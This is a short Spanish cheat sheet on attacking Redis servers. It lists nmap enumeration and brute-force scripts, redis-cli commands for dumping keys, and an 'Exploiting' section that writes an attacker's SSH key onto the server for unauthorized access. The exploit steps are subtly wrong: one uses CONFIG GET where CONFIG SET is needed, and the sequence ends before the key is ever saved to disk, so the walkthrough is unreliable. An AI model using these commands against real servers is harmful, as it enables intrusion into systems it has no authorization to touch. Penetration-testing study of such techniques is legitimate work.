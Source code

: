 # REDIS

## Enumeración
### Canales activos
```nmap
nmap -p PORT --script redis-info IP
```
## Interacción con el servicio
### Conexión mediante redis-cli
```bash
redis-cli -h IP
```
### Obtener versión desde un servicio redis
```redis
INFO
```
#### Obtener los nombres de las keys desde un servicio redis
```redis
KEYS *
```
#### Listar todos los items bajo una key desde el servicio redis
```
LRANGE KEYNAME 0 -1
```
```
SMEMBERS KEYNAME
```
```
HGETALL KEYNAME
```
#### Autenticarse en el servico redis
```
AUTH username
```
#### Obtener directorio del usuario redis
```
CONFIG GET dir
```
## Ataque por fuerza bruta
### Nmap Script
```nmap
nmap -p PORT --script redis-brute IP
```
## Exploiting
### Add ssh key
* 1. Obtener el directorio de redis
```
CONFIG GET dir
```
* 2. Comprueba si tienes acceso al .ssh de el usuario redis
```
CONFIG GET /redis/dir/.ssh
```
* 3. Pasamos nuestra clave a esa carpeta
```
cat rsa_key | redis-cli -h IP -x set ssh_key
```
